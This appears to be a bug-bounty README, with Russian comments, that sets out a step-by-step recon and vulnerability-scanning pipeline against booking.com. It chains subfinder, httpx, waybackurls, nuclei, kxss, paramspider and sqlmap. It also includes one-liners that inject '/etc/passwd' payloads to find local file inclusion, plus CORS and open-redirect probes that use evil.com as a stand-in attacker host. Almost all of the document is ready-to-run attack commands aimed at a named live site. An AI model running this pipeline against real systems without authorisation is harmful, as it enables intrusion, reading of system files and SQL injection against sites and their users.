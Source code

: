 # liveBB01
live bug bounty 01

* echo booking.com > target.txt
 _________________________________________ найдет субдомены _________________________________________
* subfinder -dL target.txt -all --recursive -o subs.txt
 _________________________________________ оставляем только живые _________________________________________
* cat subs.txt | httpx -o aliveSubs.txt
 _________________________________________ вытащить все юрл с субдоменов _________________________________________
* cat subs.txt | waybackurls | tee urls.txt
 _________________________________________ перверяет субдомен тейковер среди живых доменов _________________________________________
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
_________________________________________ проверяет на cve, exposure, vuln _________________________________________
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
  _________________________________________ из юрл извлекаем те юрл у которых есть параметры и js файлы _________________________________________
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
  _________________________________________ проверяет баги в js файлах _________________________________________
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
  _________________________________________ проверяет xss _________________________________________
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
 _________________________________________ проверяет lfi _________________________________________
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
  ________________________________________ проверяет sqli ________________________________________
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
  ______________________________________ проверяет открытое перенаправление _________________________________________
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
 _________________________________________ нуклей фазер проверет все уязвимости _________________________________________
* nf -d booking.com

